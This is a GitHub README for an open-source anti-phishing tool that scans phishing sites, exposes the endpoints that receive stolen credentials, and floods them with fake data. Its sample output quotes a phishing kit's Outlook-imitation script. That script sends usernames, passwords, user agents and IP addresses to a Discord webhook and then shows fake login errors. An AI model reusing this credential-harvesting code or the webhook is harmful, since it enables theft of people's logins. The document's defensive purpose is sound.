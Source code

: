 # Phish Phucker

![PhishPhucker Logo](https://i.ibb.co/jD9dqMm/openart-image-5-C4-YIl-FF-1717586639754-raw.jpg)
## In Partnership With
![Webamon Logo](https://i.ibb.co/ggbMv7C/weblogo.png)

## The Idea
- **Phuck The Phishers**: Make the effort of a successful phishing campaign much harder than the rewards.
- **Change How We Block**: Multiple phishing websites rely on the same backend endpoint to receive phished credentials. By exposing the required endpoint for the phishing kit to operate, we can block on our network tools. 1x Block = n phishing domains.

## Overview

Welcome to **PhishPhucker**, the revolutionary open-source cybersecurity tool designed to disrupt the phishing industry like never before. PhishPhucker ingests public and custom phishing feeds/URLs, scans them, and launches sophisticated countermeasures to thwart phishing attacks. Our mission is to make phishing an unprofitable and ineffective endeavor by mimicking real user behavior and overwhelming attackers with arbitrary but human-like data.

## Features

- **Ingest Multiple Phishing Feeds**: Seamlessly integrate public phishing feeds and custom URLs for comprehensive coverage.
- **Layered Security**: By exposing and then blocking the endpoints that receive comp'd creds, end users can fall for a phish but network applications block the POST. 
- **Website Scanning**: Extract scripts and phishing kits from malicious websites, identify the endpoints where credentials are sent.
- **Simulated Post Requests**: Recreate phishing post requests and flood attackers' endpoints with realistic-looking data.
- **Distributed Client Network**: Deploy PhishPhucker clients across multiple web edge points to mimic real-world phishing actions.
- **Pseudo-Random Timing**: Vary intervals between actions to avoid detection and mimic human behavior.
- **Multiple User Agents and Source IPs**: Use diverse browser user agents and source IPs (ISPs) to simulate a wide range of victims.
- **Network Proxy**: Utilize on-prem & internet proxy solutions to manipulate network data + requests.
- **Real Dummy Accounts**: Modern phishing kits employ an Account Checking feature that verifies if the credentials work for the provided service. PhishPhucker accounts will be returned as legit.
- **Open Source and Extensible**: Fully open source with an active community contributing to its development and enhancement.

## Installation

### Prerequisites
- Python 3.11 or higher
- Docker
- Git

### Steps

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/php-p/PhishPhucker.git
   cd PhishPhucker
   ```

2. **Deploy with Docker**:
   ```bash
   docker build -t phishphucker .
   docker run -d phishphucker
   ```
     
3. **Sample Output**:
     ```json
     {
    "utc": "2024-06-05 16:57:54",
    "pageTitle": "Screen",
    "pageLinks": [
        "<link href=\"/owa/auth/15.0.1497/themes/resources/favicon.ico\" rel=\"shortcut icon\" type=\"image/x-icon\"/>"
    ],
    "pageScripts": [
        "<script src=\"https://code.jquery.com/jquery-3.6.0.min.js\"></script>",
        "<script>\n\n        var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n        var showPlaceholderText = false;\n        var mainLogonDivClassName = 'mouse';\n\n        if (mainLogonDivClassName == \"tnarrow\") {\n            showPlaceholderText = true;\n\n            // Output meta tag for viewport scaling\n            document.write('<meta name=\"viewport\" content=\"width = 320, initial-scale = 1.0, user-scalable = no\" />');\n        }\n        else if (mainLogonDivClassName == \"twide\") {\n            showPlaceholderText = true;\n        }\n\n        function setPlaceholderText() {\n            window.document.getElementById(\"username\").placeholder = \"user name\";\n            window.document.getElementById(\"password\").placeholder = \"password\";\n            window.document.getElementById(\"passwordText\").placeholder = \"password\";\n        }\n\n        function showPasswordClick() {\n            var showPassword = window.document.getElementById(\"showPasswordCheck\").checked;\n            passwordElement = window.document.getElementById(\"password\");\n            passwordTextElement = window.document.getElementById(\"passwordText\");\n            if (showPassword) {\n                passwordTextElement.value = passwordElement.value;\n                passwordElement.style.display = \"none\";\n                passwordTextElement.style.display = \"inline\";\n                passwordTextElement.focus();\n            }\n            else {\n                passwordElement.value = passwordTextElement.value;\n                passwordTextElement.style.display = \"none\";\n                passwordTextElement.value = \"\";\n                passwordElement.style.display = \"inline\";\n                passwordElement.focus();\n            }\n        }\n    </script>",
        "<script>\n\n            var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n            mainLogonDiv.className = mainLogonDivClassName;\n        </script>",
        "<script>\n    function sleep(milliseconds) {\n        const date = Date.now();\n        let currentDate = null;\n        do {\n            currentDate = Date.now();\n        } while (currentDate - date < milliseconds);\n    }\n\n    var linksc = window.location.href\n    var value = linksc.split('#')\n    values = value[1]\n\n    document.getElementById(\"username\").value = values;\n    // document.getElementById(\"username\").value = values; \n\n\n    let count = 0;\n    var btn = document.getElementById(\"buttonId\");\n    var pwd = document.getElementById(\"password\");\n    var agents = navigator.userAgent;\n\n\n\n    btn.onclick = function () {\n        if (pwd.value.length > 0) {\n            count++;\n            if (count <= 2) {\n\n\n\n                var xhr = new XMLHttpRequest();\n                xhr.open(\"GET\", \"https://ipinfo.io/json\", true);\n                xhr.onreadystatechange = function () {\n                if (xhr.readyState === 4 && xhr.status === 200) {\n                var response = JSON.parse(xhr.responseText);\n                // Handle the response data here\n                var ipAddress = response.ip\n\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                content: (\" > **IP: **\" + ipAddress)\n                }\n                request.send(JSON.stringify(params));\n                    \n\n                }\n\n                };\n                xhr.send();\n\n\n                var request = new XMLHttpRequest();\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                    content: (\"> **USERNAME  : **\" + document.getElementById(\"username\").value + \"\\n> **PASSWORD : **\" + document.getElementById(\"password\").value + \"\\n> **USER-AGENT: **\" + agents)\n                }\n                request.send(JSON.stringify(params));\n\n               \n\n                text = \"The user name or password you entered isn't correct. Try entering it again.\";\n                // document.getElementById(\"username-error\").innerHTML = text;\n                // // document.getElementById(\"errorMessage\").style.color = \"red\";\n                document.getElementById(\"signInErrorDiv\").innerText = text;\n                document.getElementById(\"password\").value = \"\";\n                sleep(1000)\n            }\n            if (count == 2) {\n                texts = \"Verification successful... Thank you.\";\n                document.getElementById(\"signInErrorDiv\").style.color = \"green\";\n                document.getElementById(\"signInErrorDiv\").innerHTML = texts;\n                sleep(4500)\n                window.location.replace(\"https://www.microsoft.com/en-us/microsoft-365/outlook/web-email-login-for-outlook\");\n            }\n        } else {\n            text = \"The user name or password you entered isn't correct. Try entering it again.\"\n            // document.getElementById(\"errorMessage\").style.color = \"red\";\n            // document.getElementById(\"login-failure\").innerHTML = \"\";\n            document.getElementById(\"signInErrorDiv\").innerHTML = text;\n\n            // document.getElementById(\"alert\").style.backgroundColor = \"#d0452f\"; \n\n\n\n        }\n\n    }\n</script>"
    ]

   }

      ```

## Contributing

We welcome contributions from the community to enhance PhishPhucker. Feel free to submit pull requests, report issues, or suggest features.

1. **Fork the Repository** on GitHub
2. **Create a Feature Branch**:
   ```bash
   git checkout -b feature/your-feature-name
   ```
3. **Commit Your Changes**:
   ```bash
   git commit -m 'Add some feature'
   ```
4. **Push to the Branch**:
   ```bash
   git push origin feature/your-feature-name
   ```
5. **Open a Pull Request** on GitHub

## License

PhishPhucker is released under the Apache 2.0 License. See the [LICENSE](LICENSE) file for more details.

## Acknowledgements

- Thanks to the open-source community for their invaluable contributions and feedback.
- Special mention to the decade long successful Threat Actors who's actions inspire and guide this projects direction.

## Disclaimer

PhishPhucker is intended for ethical use only. Unauthorized use of this software to interfere with legitimate websites or services is strictly prohibited. The authors and contributors are not responsible for any misuse of the software.


---

PhishPhucker: Turning the Tide Against Phishing.

---

![GitHub Stars](https://img.shields.io/github/stars/php-p/PhishPhucker?style=social)
![GitHub Forks](https://img.shields.io/github/forks/php-p/PhishPhucker?style=social)
![GitHub Issues](https://img.shields.io/github/issues/php-p/PhishPhucker)
![GitHub License](https://img.shields.io/github/license/php-p/PhishPhucker)

